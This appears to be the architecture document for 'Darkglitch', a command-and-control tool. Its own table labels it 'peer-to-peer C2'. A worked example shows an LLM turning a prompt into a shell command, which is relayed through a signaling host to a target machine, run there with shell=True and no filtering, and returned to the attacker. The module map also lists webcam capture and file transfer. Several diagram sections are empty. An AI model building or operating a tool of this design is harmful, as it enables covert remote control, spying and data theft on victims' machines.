








# Darkglitch Architecture — Flow Diagrams

## 1. High-Level System Architecture



---

## 2. AI Pipeline — End-to-End Flow



---

## 3. Message Routing & Handler Dispatch



---

## 4. Connection & Peer Lifecycle



---

## 5. File Transfer Protocol Flow



---

## 6. Media Streaming Architecture



---

## 7. AI Command Extraction — Algorithm Deep Dive



---

## 8. Safety & Error Handling Matrix



---

## 9. Component Dependency Map

```mermaid
flowchart TB
    subgraph Entry["Entry Point"]
        MAIN["darkglitch.py\nmain()"]
    end

    subgraph Core["Core"]
        AI_BASE["core/ai/base.py\nLLMProvider (ABC)"]
        GROQ["core/ai/groq.py\nGroqProvider"]
        CONFIG["core/data/config.py\nHOST, ROOM"]
        CLIENT["core/data/client.py\nclient_id, username"]
    end

    subgraph Signal["Signaling"]
        SIGNAL["malware_signal/signal.py\nSignalClient"]
        PEER["malware_signal/peer.py\nPeer"]
        DEBUG_H["malware_signal/handler/debug_handler.py"]
        ONLINE_H["malware_signal/handler/online_handler.py"]
    end

    subgraph Tools["Tools"]
        AI_UTIL["tools/ai_utils/ai.py\nextract + fallback"]
        CMD_HANDLER["tools/injection_utils/\nremote_command_handler.py"]
        SHELL["tools/command/bash/shell.py\nbash modes"]
        LISTENER["tools/command/listen/listener.py"]
        ONLINE["tools/command/list/online_list.py"]
        FILE_TRANS["tools/command/transfer/file.py"]
        TRANSFER["tools/transfer_utils/transfer.py"]
        MEDIA_RX["tools/media/receiver.py"]
        WEBCAM2["tools/media/web_cam.py"]
        MEDIA_UTIL["tools/media_utils/media.py"]
    end

    subgraph Utils["Utilities"]
        BANNER["utilities/banner.py"]
        COLORS["utilities/colors.py"]
        HELPER["utilities/helper.py"]
        VERSION["utilities/version.py"]
    end

    %% Dependencies
    MAIN --> HELPER
    MAIN --> SHELL
    MAIN --> ONLINE
    MAIN --> LISTENER
    MAIN --> FILE_TRANS

    SHELL --> AI_UTIL
    SHELL --> GROQ
    SHELL --> SIGNAL
    SHELL --> PEER
    SHELL --> CMD_HANDLER
    SHELL --> CONFIG
    SHELL --> CLIENT
    SHELL --> MEDIA_UTIL

    GROQ --> AI_BASE

    SIGNAL --> CONFIG
    SIGNAL --> CLIENT

    CMD_HANDLER --> SIGNAL

    LISTENER --> SIGNAL
    LISTENER --> CMD_HANDLER
    LISTENER --> WEBCAM2
    LISTENER --> PEER
    LISTENER --> CLIENT
    LISTENER --> CONFIG

    ONLINE --> SIGNAL
    ONLINE --> ONLINE_H
    ONLINE --> CONFIG
    ONLINE --> CLIENT

    FILE_TRANS --> TRANSFER
    TRANSFER --> SIGNAL
    TRANSFER --> CMD_HANDLER
    TRANSFER --> CONFIG
    TRANSFER --> CLIENT

    MEDIA_RX --> SIGNAL

    style Entry fill:#2c3e50,color:#fff
    style Core fill:#8e44ad,color:#fff
    style Signal fill:#2980b9,color:#fff
    style Tools fill:#27ae60,color:#fff
    style Utils fill:#7f8c8d,color:#fff
```



---

## 10. Complete End-to-End Data Flow Example

**Prompt:** `darkglitch -ai <target> "list all running processes"`

```
User Input
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  CLI: darkglitch.py dispatch_command()                      │
│  → dispatches to ai_bash_mode(target, "list all running...") │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 1: AI GENERATION                                      │
│  GroqProvider.generate("list all running processes")        │
│  → HTTP POST to api.groq.com/openai/v1/responses            │
│  → Model: openai/gpt-oss-20b                                │
│  → Response: "You can use 'ps aux' to list processes\n```\nps aux\n```"│
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 2: COMMAND EXTRACTION                                 │
│  _extract_command_text(response)                            │
│  → Strip ```bash / ``` fences                               │
│  → Regex match backtick content: "ps aux"                   │
│  → Return: "ps aux"                                         │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 3: SIGNALING CONNECTION                               │
│  SignalClient(ROOM="D4RKGLI7CH", id=uuid, HOST="https://...") │
│  → WebSocket.connect("wss://malware-signal.vercel.app/...") │
│  → {"type":"register", "client_id":"...", "username":"..."}  │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 4: COMMAND PACKAGING                                  │
│  RemoteCommandHandler.send_command(target, "ps aux")        │
│  → request_id = uuid.uuid4()                                │
│  → asyncio.Future created → stored in _pending_results      │
│  → WebSocket send:                                           │
│    {                                                         │
│      "type": "offer",                                        │
│      "target": "<target_id>",                                │
│      "sdp": '{"type":"remote-command",                       │
│               "command":"ps aux",                            │
│               "request_id":"<uuid>"}'                        │
│    }                                                         │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 5: SIGNALING RELAY                                    │
│  malware-signal.vercel.app receives offer                    │
│  Looks up target's active WebSocket connection               │
│  Forwards message to target                                  │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 6: TARGET RECEPTION                                   │
│  Target's SignalClient.listen() receives message             │
│  → RemoteCommandHandler.dispatch_message()                   │
│  → Sees type="offer"                                        │
│  → _handler_offer(): extracts command from SDP               │
│  → _process_command_request():                               │
│      - sender = "<attacker_id>"                              │
│      - command = "ps aux"                                    │
│      - request_id = "<uuid>"                                 │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 7: SHELL EXECUTION                                    │
│  subprocess.run("ps aux", shell=True, capture_output=True,  │
│                 text=True, timeout=120)                      │
│  → returncode = 0                                           │
│  → stdout = "USER PID %CPU ...\nroot 1 0.0 ..."            │
│  → stderr = ""                                               │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 8: RESULT PACKAGING & SEND                            │
│  _send_result() → packages:                                  │
│  {                                                           │
│    "type": "answer",                                         │
│    "target": "<attacker_id>",                                │
│    "sdp": '{"type":"remote-command-result",                  │
│             "request_id":"<uuid>",                           │
│             "status":"success",                              │
│             "output":"USER PID %CPU ...\nroot 1 0.0 ..."}'   │
│  }                                                           │
│  → WebSocket send to signaling server                        │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 9: ATTACKER RECEIVES RESULT                            │
│  Signaling relays answer back to attacker                    │
│  → _handle_command_result(message)                           │
│  → Looks up request_id in _pending_results                   │
│  → Calls future.set_result(message)                          │
│  → Await resolves → result variable populated                │
└─────────────────────────────────────────────────────────────┘
    │
    ▼
┌─────────────────────────────────────────────────────────────┐
│  STEP 10: OUTPUT DISPLAY                                     │
│  result["status"] == "success" → print result["output"]      │
│  Console:                                                     │
│    [+] AI BASH MODE                                          │
│    [+] GENERATED COMMAND: ps aux                             │
│    USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND    │
│    root    1  0.0  0.1  ...                                  │
│    [+] BASH EXECUTED SUCCESSFULLY                            │
│                                                              │
│  Cleanup: cancel listener, close WebSocket                   │
└─────────────────────────────────────────────────────────────┘
```

---

## Architecture Summary

| Aspect | Description |
|--------|-------------|
| **Pattern** | Peer-to-peer C2 with centralized signaling |
| **Transport** | WebSocket (signaling) + WebRTC (media) |
| **AI Interface** | Groq API via OpenAI-compatible SDK |
| **Execution** | `subprocess.run(shell=True)` on target |
| **State Model** | Stateless AI, ephemeral request futures |
| **Safety** | No whitelist/blacklist; TLS at transport layer only |
| **Resilience** | Retry loop (10s), timeout (120s), fallback commands |
| **Scalability** | Room-based grouping; unlimited peers per room |

